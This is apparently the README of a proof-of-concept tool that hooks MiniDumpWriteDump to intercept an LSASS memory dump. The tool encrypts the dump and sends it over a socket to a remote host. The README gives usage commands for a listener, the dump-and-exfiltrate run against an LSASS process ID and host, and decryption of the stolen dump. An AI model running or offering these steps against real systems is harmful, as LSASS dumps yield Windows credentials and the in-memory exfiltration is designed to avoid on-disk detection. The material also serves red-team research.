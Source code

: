 # MiniDumpWriteDumpPoC
MiniDumpWriteDump behavior modification hook

This is a function hook that allows to access the buffer generated by MiniDumpWriteDump before it gets to disk.

Once accessed, it will encrypt the buffer and send it through a socket to a given host. 


## Compilation

A full VS solution is provided. Just compile it. 


## Usage

First, set up the server to listen on the receiving host: 

```
python3 serv.py <PORT>

    python3 serv.py 1234
```


```
.\minidumppoc.exe <LSASS_PID> <WRITE_TO_FILE 0|1> <EXFIL 0|1> [<HOST> <PORT>] [<EXPORT_PATH>]

    minidump.exe 696 1 1 '192.168.1.10' 1234" "c:\test.dmp"
```

Once the whole file is received, close the server, and use the dummy decryptor: 

```
python3 dec.py woot.dmp woot_decrypted.dmp 0xb0
```


